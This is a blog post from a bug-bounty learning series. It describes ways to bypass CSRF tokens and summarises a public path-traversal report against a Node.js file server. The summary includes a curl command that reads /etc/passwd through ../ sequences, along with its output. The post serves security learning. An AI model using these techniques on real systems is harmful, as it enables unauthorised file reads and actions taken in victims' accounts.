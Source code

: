 ```yaml
---
title:  "Day 20/100 Hack and Improvement"
date: 2020-05-20
tags: [Penetration Testing, Hacking, Bug Bounty, Offensive Security]
header: 
  image: "assets/images/100dl/day20/header.jpg"
---
```



## Bypassing CSRF Protection

[Rajesh Ranjan](https://twitter.com/eh_rajesh). In most of the cases, the web applications are protected by some anti CSRF token, but there are few ways by which we can bypass these protection. Here I have describe few ways to bypass the protection. 

### Replacing the token value with same length

Sometimes by replacing the token with the same length may lead to bypass the CSRF protection, like if the token value is of 32 character long in the ```csrf_token``` variable, then try to replace the same with another 32 character value.

**Example:** if your token value ```csrf_token=8d959ed6e0109c03635b45921f9b17d9``` then replace it with the any 32 character long like ```csrf_token=abcdefghijklmnop1234432123```

### Changing the Request Method

The another way to Bypass the CSRF protection is by changing the request method, like if any sensitive action is done via POST method, try to change it to GET method, sometime it might work.

**Example:**

Suppose here is a request for the password change.
```
POST /change_password
```
Body:
```
new_password=12345
```

**TO**
```
GET /change_password?new_password=12345
```

### Remove the CSRF token completely

This technique for bypassing the CSRF protection is famous and it works in few cases. In this what we can do is, remove the ```csrf_token``` value completely and then submit the request. 

**Case 1:** I was testing a web application and found that, while adding an address to account, there is an anti-csrf token present in the request. So I tried to remove the ```csfr_token``` value from the request and the request got submitted. So I was able to add attacker’s address into the Victim’s account

<img src="{{ site.url }}{{ site.baseurl }}/assets/images/100dl/day20/csrf.png" alt="nmap scan">


**Case 2:** This was an e-commerce website and there was an option to add items to cart. So I capture the add to cart request, and tried to remove the anti-csrf token, and the same way request got submitted. 

In this case, an attacker may be able to add any items to victim cart. If victim do not find this item, he/she would pay for this item which can greatly influence company reputation



## Path Traversal and Capabilities

Path traversal attacks are also known as directory traversal which leads to unrestricted access to different directories that are stored outside the web root folder. Manipulating different variables that references files such as, ```../../../``` sequences the attacker can achieve unrestricted access to files that are related to the application sources code or configuration in the critical files. 

## Write Up and Explanation

[**Path Traversal vulnerability allows to read content on arbitrary file on the server**](https://hackerone.com/reports/310943)

The attacker saw the path traversal possible through a general file server made by nodejs. Once the attacker knew the technology that it was running, he proceeds to install the ```general file server``` in his machine by serving the different modules and executing the following curl command:

```
curl -v --path-as-is http://127.0.0.1:8080/../../../../../../etc/passwd
```

The attacker got the following result:
```
*   Trying 127.0.0.1...
* Connected to 127.0.0.1 (127.0.0.1) port 8080 (#0)
> GET /../../../../../../etc/passwd HTTP/1.1
> Host: 127.0.0.1:8080
> User-Agent: curl/7.47.0
> Accept: */*
> 
< HTTP/1.1 200 OK
< Content-Type: application/octet-stream
< Date: Wed, 31 Jan 2018 12:53:13 GMT
< Connection: keep-alive
< Transfer-Encoding: chunked
< 
root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
bin:x:2:2:bin:/bin:/usr/sbin/nologin
(...)
```

